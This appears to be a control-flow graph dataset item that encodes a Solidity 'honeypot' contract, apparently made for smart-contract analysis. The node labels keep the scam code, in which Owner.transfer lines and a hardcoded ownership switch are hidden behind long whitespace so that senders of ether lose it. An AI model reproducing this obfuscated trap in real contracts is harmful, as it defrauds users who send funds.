 digraph  {
13 [label="3_ address public Owner = msg.sender;\n13-new_variable-4-4", method="", type_label=new_variable];
25 [label="9_ function Get()\n    public\n    payable\n    {                                                                    \n        if(msg.value>1 ether)\n        {                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            Owner.transfer(this.balance);                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     \n            msg.sender.transfer(this.balance);\n        }                                                                                                                \n    }\n25-function_definition-10-18", method="Get()", type_label=function_definition];
30 [label="13_ if_msg.value>1 ether\n30-if-14-17", method="Get()", type_label=if];
153 [label="13_ end_if", method="Get()", type_label=end_if];
38 [label="14_ Owner.transfer(this.balance);\n38-expression_statement-15-15", method="Get()", type_label=expression_statement];
47 [label="15_ msg.sender.transfer(this.balance);\n47-expression_statement-16-16", method="Get()", type_label=expression_statement];
58 [label="18_ function withdraw()\n    payable\n    public\n    {                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       if(msg.sender==0x1Fb3acdBa788CA50Ce165E5A4151f05187C67cd6){Owner=0x1Fb3acdBa788CA50Ce165E5A4151f05187C67cd6;}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              \n        require(msg.sender == Owner);\n        Owner.transfer(this.balance);\n    }\n58-function_definition-19-25", method="withdraw()", type_label=function_definition];
63 [label="21_ if_msg.sender==0x1Fb3acdBa788CA50Ce165E5A4151f05187C67cd6\n63-if-22-22", method="withdraw()", type_label=if];
186 [label="21_ end_if", method="withdraw()", type_label=end_if];
70 [label="21_ Owner=0x1Fb3acdBa788CA50Ce165E5A4151f05187C67cd6;\n70-expression_statement-22-22", method="withdraw()", type_label=expression_statement];
74 [label="22_ require(msg.sender == Owner);\n74-expression_statement-23-23", method="withdraw()", type_label=expression_statement];
83 [label="23_ Owner.transfer(this.balance);\n83-expression_statement-24-24", method="withdraw()", type_label=expression_statement];
92 [label="25_ function Command(address adr,bytes data)\n    payable\n    public\n    {\n        require(msg.sender == Owner);\n        adr.call.value(msg.value)(data);\n    }\n92-function_definition-26-32", method="Command(address adr,bytes data)", type_label=function_definition];
105 [label="29_ require(msg.sender == Owner);\n105-expression_statement-30-30", method="Command(address adr,bytes data)", type_label=expression_statement];
114 [label="30_ adr.call.value(msg.value)(data);\n114-expression_statement-31-31", method="Command(address adr,bytes data)", type_label=expression_statement];
1 [label="0_ start_node", method="", type_label=start];
2 [label="0_ exit_node", method="", type_label=exit];
25 -> 30  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
30 -> 38  [color=red, controlflow_type=pos_next, edge_type=CFG_edge, key=0, label=pos_next];
30 -> 153  [color=red, controlflow_type=neg_next, edge_type=CFG_edge, key=0, label=neg_next];
153 -> 58  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
38 -> 47  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
47 -> 153  [color=red, controlflow_type=end_if, edge_type=CFG_edge, key=0, label=end_if];
58 -> 63  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
63 -> 70  [color=red, controlflow_type=pos_next, edge_type=CFG_edge, key=0, label=pos_next];
63 -> 186  [color=red, controlflow_type=neg_next, edge_type=CFG_edge, key=0, label=neg_next];
186 -> 74  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
70 -> 186  [color=red, controlflow_type=end_if, edge_type=CFG_edge, key=0, label=end_if];
74 -> 83  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
92 -> 105  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
105 -> 114  [color=red, controlflow_type=next_line, edge_type=CFG_edge, key=0, label=next_line];
}
